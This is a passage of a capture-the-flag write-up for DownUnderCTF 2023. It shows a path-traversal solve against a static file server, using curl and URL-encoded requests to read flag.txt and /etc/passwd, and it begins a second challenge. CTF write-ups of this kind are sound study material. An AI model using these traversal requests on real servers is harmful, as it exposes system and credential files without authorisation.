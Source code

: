 ```bash
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ctf:x:1000:1000::/home/ctf:/bin/sh

┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ curl --path-as-is 'https://web-static-file-server-9af22c2b5640.2023.ductf.dev/files/../../flag.txt'
DUCTF{../../../p4th/tr4v3rsal/as/a/s3rv1c3}
```

> [!NOTE] URL encode to avoid using `--path-as-is`
> ```bash
> http https://web-static-file-server-9af22c2b5640.2023.ductf.dev/files/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
> ```

> DUCTF{../../../p4th/tr4v3rsal/as/a/s3rv1c3}
## xxd-server

#### Info

I wrote a little app that allows you to hex dump files over the internet.

Author: hashkitten

[https://web-xxd-server-2680de9c070f.2023.ductf.dev](https://web-xxd-server-2680de9c070f.2023.ductf.dev/)

#### Solve

![](attachment/1ee7997c90d9be909f32fdb63adaed06.png)
